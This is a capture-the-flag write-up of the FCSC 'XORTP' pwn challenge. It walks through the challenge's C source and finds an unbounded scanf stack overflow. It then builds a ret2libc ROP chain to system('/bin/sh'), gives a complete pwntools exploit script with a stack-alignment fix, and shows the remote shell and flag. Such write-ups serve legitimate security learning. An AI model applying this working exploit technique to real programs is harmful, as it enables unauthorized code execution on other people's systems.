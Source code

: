 +++
date = '2025-04-27T14:23:22+02:00'
draft = false 
title = 'XORTP'
tags = [ "pwn" ]
+++

Title: XORTP  
Points: 200  
Number of solves: 146  
Description: You can encrypt any file on the system with an unbreakable mechanism worthy of the greatest!  

We are provided with the source code of the challenge and a compiled executable.  

Ok so the code contains 3 functions including a `main`.  
```c
ssize_t
get_otp(unsigned char *k, const size_t n)
{
    int fd = open("/dev/urandom", O_RDONLY);
    if (fd < 0) {
    	return -1;
    }

    if (read(fd, k, n) < 0) {
        close(fd);
    	return -1;
    }

    close(fd);
    return n;
}
```

This `get_otp` (otp meaning one time password) function reads `n` bytes of data from `/dev/urandom` into the buffer pointed by `k` which provides a random encryption key to the program.  

```c
ssize_t
read_file(char *fn, unsigned char *m)
{
    int fd = open(fn, O_RDONLY);
    if (fd < 0) {
    	return -1;
    }

    ssize_t n = read(fd, m, BUF_SIZE);
    if (n < 0) {
    	return -1;
    }

    close(fd);
    return n;
}
```

The `read_file` function does exactly what the name implies : it reads `BUF_SIZE` of data from the file which name is in `fn` into the buffer pointed by `m`. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

#define BUF_SIZE 128


int
main()
{
    char filename[BUF_SIZE];
    unsigned char m[BUF_SIZE];
    unsigned char k[BUF_SIZE];

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    system("ls -ld *");

    printf("Which file would like to encrypt?\n");
    scanf("%s", filename);

    ssize_t length = read_file(filename, m);
    if (length < 0) {
        printf("Error: read_file\n");
    	return 0;
    }

    if (get_otp(k, length) < 0) {
        printf("Error: get_otp\n");
    	return 0;
    }

    // Output the XOR result
    for (ssize_t i = 0; i < length; ++i) {
    	printf("%02x", m[i] ^ k[i]);
    }
    printf("\n");

    return 0;
}
```

Now for the `main` part this displays the content of the current directory then reads a filename from the user and outputs up to the first 128 bytes xored with a random key.  
```
>>> nc chall.fcsc.fr 2105
-r-------- 1 ctf ctf     71 Apr 13 21:36 flag.txt
-r-x------ 1 ctf ctf 899704 Apr 13 21:36 xortp
Which file would like to encrypt?
flag.txt
9eec55fe66cc73bf87ea8d4decd037f715b697ededdfa40f1373b9dc47a0cef4bad96dd14a732ef32dddd5b11c8fcd3a93eb2f38dad24d19c1bca549d44e71b65ac4cfa53858b9
```

Routine checksec for some information.
```
>>> pwn checksec --file xortp
[*] '/home/furtest/files/hacking/ctf/fcsc/pwn/XORTP/xortp'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```


The encryption logic does not have any obvious flaws however we notice that there is no bound check on the filename `scanf("%s", filename);`  
The size of the buffer for filename is `BUF_SIZE` = 128  
Now how can we exploit this ? It is possible to send `filename\x00aaaa...` to input filename and make the file reading work and then trigger a segfault because we overwrote the return pointer.  

Wait `segmentation fault` ? Checksec said that there is a stack canary the error should have been `stack smashing detected`. We can take a quick look at the decompiled binary in ghidra and indeed there is no canary on the main function. (This took me an embarrassingly long time to notice)   
Once we know that we need to take advantage of our capacity to control the return pointer of `main`. We cannot really take advantage of the functions in the program so we will try to perform a ret2libc and execute `system`.  

One more cool thing that will make everything a lot easier : the binary is statically linked 
```
>>> file xortp
xortp: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=e63dc8ebb3de92c338be2ed7f0590fbbbabd94f6, for GNU/Linux 3.2.0, not stripped
```

So the binary is statically linked and PIE (position independant executabled) is disabled. Calling function is therefore just a matter of finding their address in the executable.  
We will to try to call `system("/bin/sh")` to do that we find a `/bin/sh` string at address `0x498213` and the `system` function at address `0x40a3c0`.

To execute it we need to put a pointer to `/bin/sh` in `rdi` as per the x86-64 ABI.  
We will use a rop (return oriented programming) gadget to do so.
```
>>> ropper -f xortp --search "pop rdi; ret;"
0x0000000000401f60: pop rdi; ret; 
```

So recapitulating where we are :
- We have a buffer overflow on the filename input
- We can use it to overwrite the return pointer 
- The binary is statically linked and PIE is disabled
- We have the address of a `/bin/sh` string a rop gadget to load it in `rdi` and the address of `system`.

The next step is to write a nice little pwntools script to put all of that together.

```python
io = start()

system = 0x40a3c0
binsh = 0x498213

# Find the rop gadget
rop = ROP(elf)
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]

payload = flat(
        b"flag.txt\x00",
        b"A"*(145-2),
        pack(POP_RDI),
        pack(binsh),
        pack(system),
        pack(0x0)
        )

print(io.recvline().decode(), end="")
print(io.recvline().decode(), end="")
io.sendlineafter(b'Which file would like to encrypt?\n', payload)
print(io.recvline().decode(), end="")

io.interactive()
```

We run the script and tadam : `[1]    17615 segmentation fault (core dumped)`  
Hum looks like I forgot to take stack alignment into account (I ran the exploit in gdb to figure it out).  

So I need to make the stack 16 bytes aligned (ie `rsp` must be modulo 16).  
After manually stepping through the code we can see that one of the first instructions executed by `system` is `push r13` which changes `rsp` by 8 bytes.  
So instead of jumping to the start of `system` we jump after this `push` and our exploit works.

```
>>> ./exploit.py REMOTE
-r-------- 1 ctf ctf     71 Apr 13 21:36 flag.txt
-r-x------ 1 ctf ctf 899704 Apr 13 21:36 xortp
bf40d970d624855062f89d3f2e39c3c2c8370fabe53e304fd014e866cfee994353f58dfb3580170a3dd26342659f9035075d4ecd59da8324a7c841a4f2df6b88a40771d95b3fa7
$ ls
flag.txt
xortp
$ cat flag.txt
FCSC{5f6162c46e47b68ad0d1b4a5e12404ad51431b197e37ff79ef940787fecfb554}
```
